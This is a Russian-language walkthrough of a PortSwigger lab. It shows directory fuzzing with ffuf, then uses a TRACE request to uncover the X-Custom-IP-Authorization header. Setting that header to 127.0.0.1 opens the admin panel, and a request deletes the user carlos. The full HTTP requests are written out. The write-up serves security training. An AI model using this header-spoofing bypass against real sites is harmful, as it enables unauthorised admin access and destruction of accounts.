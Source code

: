 ```yaml
---
title: "Authentication bypass via information disclosure"
date: 2025-07-10
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-authentication-bypass"
classes: wide
---
```


В данной лабораторной работе можно обойти аутентификацию к личному кабинету администратора, но для этого нужно получить кастомный заголовок `HTTP` запроса через отладочные методы `HTTP`-запросов.

Для решения нужно получить доступ к личному кабинету пользователя `carlos` и удалить его аккаунт. Для входа в свою учетку можно использовать данные `wiener`:`peter`.

```
https://0a78001904697f8084f3b89b00cf002d.web-security-academy.net/
```

##  Solution

Зайду в ЛК:

```http
POST /login HTTP/2
Host: 0a78001904697f8084f3b89b00cf002d.web-security-academy.net
Cookie: session=Wl0WMu2OX3zIEymsSIJfaM8GBCOPEird
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ad4004904fa068f811034cd00bb0086.web-security-academy.net/login
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Origin: https://0ad4004904fa068f811034cd00bb0086.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

csrf=MHHhXRJRIhF8IQ5FrMxo82QhJIgCsybx&username=wiener&password=peter
```

Пока ничего интересного не вижу. Поищу ручки с помощью [ffuf](https://cu63.github.io/tools/ffuf/):

```bash
cu63:~/ $ ffuf -u https://0ad4004904fa068f811034cd00bb0086.web-security-academy.net/FUZZ -w ~/wordlists/common.txt                                      
        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://0ad4004904fa068f811034cd00bb0086.web-security-academy.net/FUZZ
 :: Wordlist         : FUZZ: /Users/cu63/wordlists/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

Admin                   [Status: 401, Size: 2592, Words: 1044, Lines: 54, Duration: 61ms]
ADMIN                   [Status: 401, Size: 2592, Words: 1044, Lines: 54, Duration: 66ms]
Login                   [Status: 200, Size: 3185, Words: 1313, Lines: 64, Duration: 62ms]
admin                   [Status: 401, Size: 2592, Words: 1044, Lines: 54, Duration: 64ms]
analytics               [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 62ms]
favicon.ico             [Status: 200, Size: 15406, Words: 11, Lines: 1, Duration: 68ms]
filter                  [Status: 200, Size: 10743, Words: 5064, Lines: 199, Duration: 80ms]
login                   [Status: 200, Size: 3185, Words: 1313, Lines: 64, Duration: 65ms]
logout                  [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 63ms]
my-account              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 62ms]
:: Progress: [4686/4686] :: Job [1/1] :: 37 req/sec :: Duration: [0:01:29] :: Errors: 0 ::
```

Хмм... Будто бы мне на что-то намекают. Пойду смотреть этих ваших админов) Выдало ошибку:

```
Admin interface only available to local users 
```

Закину запрос в `Repeater` и попробую изменить `GET` на `OPTIONS`:

```http
HTTP/2 405 Method Not Allowed
Allow: GET, POST
Content-Type: application/json; charset=utf-8
Set-Cookie: session=46hsgkj2fGn2rQC2m7HDAU5Bj5RM1AgR; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 20

"Method Not Allowed"
```

Пока безуспешно. Может быть `TRACE`? Этот метод используется для отладки. Сервер должен нам отравить полученный пакет обратно:

```http
HTTP/2 200 OK
Content-Type: message/http
X-Frame-Options: SAMEORIGIN
Content-Length: 682

TRACE /login HTTP/1.1
Host: 0a78001904697f8084f3b89b00cf002d.web-security-academy.net
user-agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:140.0) Gecko/20100101 Firefox/140.0
accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
accept-language: en-US,en;q=0.5
accept-encoding: gzip, deflate, br
referer: https://0a78001904697f8084f3b89b00cf002d.web-security-academy.net/
upgrade-insecure-requests: 1
sec-fetch-dest: document
sec-fetch-mode: navigate
sec-fetch-site: same-origin
sec-fetch-user: ?1
priority: u=0, i
te: trailers
cookie: session=F4pNxow1kvc4kNvojK2id2aDac4svg4e
Content-Length: 0
X-Custom-IP-Authorization: 91.233.170.191
```

Вот этот параметр выглядит больно подозрительно: `X-Custom-IP-Authorization: 91.233.170.191`. Попробую заменить его на `localhost`:

```http
HTTP/2 200 OK
Content-Type: message/http
X-Frame-Options: SAMEORIGIN
Content-Length: 677

TRACE /login HTTP/1.1
Host: 0a78001904697f8084f3b89b00cf002d.web-security-academy.net
user-agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:140.0) Gecko/20100101 Firefox/140.0
accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
accept-language: en-US,en;q=0.5
accept-encoding: gzip, deflate, br
referer: https://0a78001904697f8084f3b89b00cf002d.web-security-academy.net/
upgrade-insecure-requests: 1
sec-fetch-dest: document
sec-fetch-mode: navigate
sec-fetch-site: same-origin
sec-fetch-user: ?1
priority: u=0, i
te: trailers
x-custom-ip-authorization: 127.0.0.1
cookie: session=F4pNxow1kvc4kNvojK2id2aDac4svg4e
Content-Length: 0
```

Сработало. Мое значение не перетерлось. Подставлю его в `GET`-запрос к странице админа:

```http
GET /admin HTTP/2
Host: 0a78001904697f8084f3b89b00cf002d.web-security-academy.net
Cookie: session=F4pNxow1kvc4kNvojK2id2aDac4svg4e
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a78001904697f8084f3b89b00cf002d.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
X-Custom-Ip-Authorization: 127.0.0.1
```

Получилось)

![IMG](/assets/images/PortSwigger/IMG_path_traversal/IMG_Authentication_bypass_via_information_disclosure/1.png){: height="200" .align-center}

Для удобства сделаю это в браузере. Для этого нажму правой кнопкой мыши на мой запрос и выберу пункт `Show response in browser`. Теперь удалю пользователя, включив проки, чтобы подставить нужное значение:

```http
GET /admin/delete?username=carlos HTTP/2
Host: 0a78001904697f8084f3b89b00cf002d.web-security-academy.net
Cookie: session=lxk7eSbUwQylN3FVHqgQ6Np18IyXaYvk
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a78001904697f8084f3b89b00cf002d.web-security-academy.net/admin
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
X-Custom-Ip-Authorization: 127.0.0.1
```

Пользователь удален, а значит лаба решена.

![IMG](/assets/images/PortSwigger/IMG_path_traversal/IMG_Authentication_bypass_via_information_disclosure/2.png){: height="200" .align-center}
